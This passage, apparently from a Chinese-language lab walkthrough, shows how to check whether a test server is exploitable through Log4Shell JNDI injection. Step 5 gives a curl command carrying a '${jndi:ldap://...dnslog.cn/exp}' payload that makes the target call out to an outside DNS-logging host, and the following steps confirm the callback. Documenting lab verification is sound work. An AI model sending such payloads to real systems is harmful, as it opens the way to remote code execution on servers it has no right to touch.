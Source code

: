 5.使用绕过POST的curl攻击请求：

```bash
curl -G http://192.168.109.4:13806/hello --data-urlencode 'payload=${jndi:ldap://nxz5uf.dnslog.cn/exp}'
```

6.可以从被攻击机的udp 53端口中看到DNS解析请求：

<img src="picture/验证漏洞可利用性（本机）.png" alt="验证漏洞可利用性（本机）" style="zoom:50%;" />

7.与此同时在DnsLog进行刷新纪录，可以看到成功接收到解析记录：
